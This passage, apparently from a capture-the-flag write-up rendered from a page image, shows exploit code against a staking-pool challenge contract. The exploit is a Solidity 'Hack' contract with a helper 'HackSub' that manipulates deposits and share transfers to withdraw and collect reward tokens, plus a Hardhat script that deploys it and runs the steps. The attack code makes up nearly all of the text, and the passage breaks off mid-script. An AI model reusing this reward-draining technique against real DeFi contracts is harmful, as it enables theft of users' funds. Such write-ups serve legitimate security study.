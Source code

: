             stakingPools = stakingPoolsDeployment.stakingPools();
            rewardToken1 = stakingPoolsDeployment.rewardToken();
            rewardToken2 = stakingPoolsDeployment.rewardToken2();
            stakedToken = stakingPoolsDeployment.stakedToken();

            hackSub = new HackSub(this, stakingPools, rewardToken1, rewardToken2, stakedToken);

            stakingPoolsDeployment.faucet();
        }

        function runStep1() public {
            stakedToken.transfer(address(hackSub), 1e18);
            hackSub.deposit(1e18);
        }

        function runStep2() public {
            stakedToken.approve(address(stakingPools), 99999e18);
            stakingPools.deposit(99999e18);
            stakingPools.transfer(address(hackSub), 99999e18);
        }

        function runStep3() public {
            hackSub.withdraw(100000e18);
            hackSub.collect();
            for (uint256 i = 0; i < 5; i++) {
                rewardToken2.transfer(address(this), rewardToken2.balanceOf(address(this)));
            }
        }

        function passBlock() public {}
    }
    ```

??? info "script"
    ```js
    const {ethers} = require("hardhat");

    async function passBlock(hack, number) {
        for (let i = 0; i < number; i++) {
            const _ = await hack.passBlock();
        }
    }

    async function main() {

        const hackContract = await ethers.getContractFactory("Hack");
        const hack = await hackContract.deploy();

        const hackAddr = await hack.getAddress();
        const challengeAddr = await hack.stakingPoolsDeployment();
        const chall = await ethers.getContractAt("StakingPoolsDeployment", challengeAddr);

        console.log("Hack deployed to:", hackAddr);

        const tx1 = await hack.runStep1();
        const tx2 = await hack.runStep2();
        await passBlock(hack, 1);
        const tx3 = await hack.runStep3();
